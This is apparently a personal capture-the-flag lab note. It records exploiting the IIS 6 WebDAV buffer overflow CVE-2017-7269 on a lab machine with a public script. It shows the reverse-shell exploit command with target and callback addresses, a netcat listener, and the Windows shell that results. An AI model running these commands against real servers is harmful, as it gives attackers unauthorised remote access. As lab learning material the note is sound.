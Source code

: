 https://vk9-sec.com/microsoft-iis-scstoragepathfromurl-function-buffer-overflow-cve-2017-7269/

used above POC for identified CVE

got the script from here

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell



initially it was failing 

┌──(root💀kali)-[~/Desktop/THM/iis6-exploit-2017-CVE-2017-7269]
└─# python3 iis6.py  10.10.10.14 80 10.10.16.6 4455 
  File "/root/Desktop/THM/iis6-exploit-2017-CVE-2017-7269/iis6.py", line 6
    print 'usage:iis6webdav.py targetip targetport reverseip reverseport\n'
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?



checked the error and found out that code was written for pyton2 and i was running it using python3


so changed that and started a netcat listernet on port 4455

and ran this

──(root💀kali)-[~/Desktop/THM/iis6-exploit-2017-CVE-2017-7269]
└─# python2 iis6.py  10.10.10.14 80 10.10.16.6 4455 


got a  shell


──(root💀kali)-[~]
└─# nc -lnvp 4455
listening on [any] 4455 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>



C:\Documents and Settings\All Users>whoami
whoami
nt authority\network service


Now since i am learning windows priv esc as i got went with the writeup here to see how we can manually esclate priv on windows machine


stopped here and wasted 4-5 hrs of my life to get a free course on windows priv esc fundamentals


will get it tomorrow so will continue iwht windows machine tomorrow


